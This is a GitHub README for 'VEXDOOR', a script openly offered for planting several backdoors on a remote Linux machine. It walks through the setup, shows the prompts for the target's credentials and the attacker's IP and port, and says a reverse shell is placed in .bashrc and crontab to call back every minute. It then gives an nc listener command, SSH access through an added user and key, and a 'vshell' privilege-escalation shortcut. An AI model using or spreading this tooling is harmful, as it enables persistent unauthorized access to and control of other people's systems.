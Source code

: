 # VEXDOOR

vexdoor is a script created by vex that create a multi backdoors on one linux machine

## Installation

first you need to git the directory

```bash
git clone https://github.com/V33-777/VEXDOOR
```

after that you need to create a ssh public key using this command
```bash
ssh-keygen -t rsa -b 4096
```

now you need to move the public key to vexdoor directory

## SETUP

```bash
chmod +x Requirements.sh
chmod +x vexdoor
./vexdoor
```
atfer that you need to put the information:
```bash
VVVVVVVV           VVVVVVVV 333333333333333   XXXXXXX       XXXXXXX
V::::::V           V::::::V3:::::::::::::::33 X:::::X       X:::::X
V::::::V           V::::::V3::::::33333::::::3X:::::X       X:::::X
V::::::V           V::::::V3333333     3:::::3X::::::X     X::::::X
 V:::::V           V:::::V             3:::::3XXX:::::X   X:::::XXX
  V:::::V         V:::::V              3:::::3   X:::::X X:::::X
   V:::::V       V:::::V       33333333:::::3     X:::::X:::::X
    V:::::V     V:::::V        3:::::::::::3       X:::::::::X
     V:::::V   V:::::V         33333333:::::3      X:::::::::X         github:https://github.com/V3X-777
      V:::::V V:::::V                  3:::::3    X:::::X:::::X          discord:s3cdet17
       V:::::V:::::V                   3:::::3   X:::::X X:::::X
        V:::::::::V                    3:::::3XXX:::::X   X:::::XXX
         V:::::::V         3333333     3:::::3X::::::X     X::::::X
          V:::::V          3::::::33333::::::3X:::::X       X:::::X
           V:::V           3:::::::::::::::33 X:::::X       X:::::X
            VVV             333333333333333   XXXXXXX       XXXXXXX
Backdoor Setup Script
---------------------
This script is created by V3X to create multi-backdoors on a remote machine.
Please provide the following information:
============================================================================
Enter the machine username:
Enter the machine IP address:
Entre your password:
Entre your username:
Entre your ip:
Entre your port:
Entre the name of the ssh public key file:
```
# USAGE
waiting to receive your revshell cuz i put your revshell in the .bashrc and in crontab so after 1 min you will receive it
```bash
[vex👽>  ]$ nc -lnvp "your port"
```
you can connect to the ssh with your user that you put it in the first 
```bash
[vex👽>  ]$ ssh username@ip
```
there is another trick if you find a way to entre to the machine you can high your privilege with this command
```bash
[vex👽>  ]$ vshell
```
you can login to the ssh by your id_rsa 
```bash
[vex👽>  ]$ ssh -i id_rsa root@ip
